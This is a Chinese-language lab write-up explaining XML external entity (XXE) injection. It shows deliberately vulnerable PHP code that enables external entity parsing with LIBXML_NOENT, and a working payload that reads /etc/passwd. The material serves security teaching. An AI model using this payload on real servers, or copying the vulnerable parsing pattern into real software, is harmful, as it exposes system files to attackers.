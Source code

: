 
# 概述
XXE "xml external entity injection"既"xml外部实体注入漏洞"。概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

具体的关于xml实体的介绍,网络上有很多,自己动手先查一下。现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。

XML语法结构大致如下
```
第一部分：XML声明部分
<?xml version="1.0"?>

第二部分：文档类型定义 DTD
<!DOCTYPE note[ 
<!--定义此文档是note类型的文档-->
<!ENTITY entity-name SYSTEM "URI/URL">
<!--外部实体声明-->
]>

第三部分：文档元素
<note>
<to>LS</to>
<from>XMTX</from>
<head>Reminder</head>
<body>Is a good</body>
</note>
```


# XXE漏洞

## 查看关键代码
```php
$html='';
//考虑到目前很多版本里面libxml的版本都>=2.9.0了,所以这里添加了LIBXML_NOENT参数开启了外部实体解析
if(isset($_POST['submit']) and $_POST['xml'] != null){


    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="
<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

可以看到添加了LIBXML_NOENT参数开启了外部实体解析


## 实战
这个也没什么好说的吧
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY XMTX SYSTEM "file:///etc/passwd">
]>
<x>&XMTX;</x>
```
![image-20210715152910525.png](_img/assets/1655881363832-a1066b59-2df0-4d26-aea1-9da25c6a5d4a.png)
